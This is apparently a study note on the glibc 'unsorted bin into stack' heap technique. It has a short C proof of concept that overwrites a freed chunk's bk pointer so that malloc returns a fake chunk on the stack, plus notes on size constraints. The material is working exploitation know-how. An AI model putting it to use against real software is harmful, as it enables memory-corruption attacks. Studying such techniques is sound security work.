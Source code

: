 # Unsorted_bin into stack
> LongChampion, 19/03/2020

In this attack, we modify the `bk` pointer of a chunk in unsorted_bin to make `malloc` return a fake chunk.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake, NextFake;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = &Fake;
    Fake.size = 0x200;
    Fake.bk = &NextFake;

    void *STACK = malloc(0x200 - 8);
}
```
First, we allocate two chunks and free the first chunk to push it into unsorted_bin. Then we set the `bk` pointer of `victim` point to our fake chunk. After that, we set the size of the fake chunk (it must differ from size of `victim` chunk) and set `Fake.bk` point to somewhere. Finally, call `malloc` with EXACT resquest size to get the fake chunk.

## Note
- The `pivot` chunk is used to prevent `free` from consolidating `victim` with top_chunk.
- You can change size of `victim` chunk and size of fake chunk to any value. But the following condition must be satify:
    - Size of fake chunk is differ from size of size of `victim` chunk.
    - Size of fake chunk fall into fastbin range or smallbin range (can't be largebin range)
- Request size of last `malloc` call must be **calcutaled** to make `malloc` return a fake chunk (read `calc_tcache_idx.md` if you don't know how to calculate this value)
- 8 bytes at address `Fake.bk + 0x10` will be overwrite, so make sure that you set `Fake.bk` to somewhere suitable (Don't try to overwrite the canary please)
- As we expect, `STACK` point to `Fake.fd`, not `Fake`.

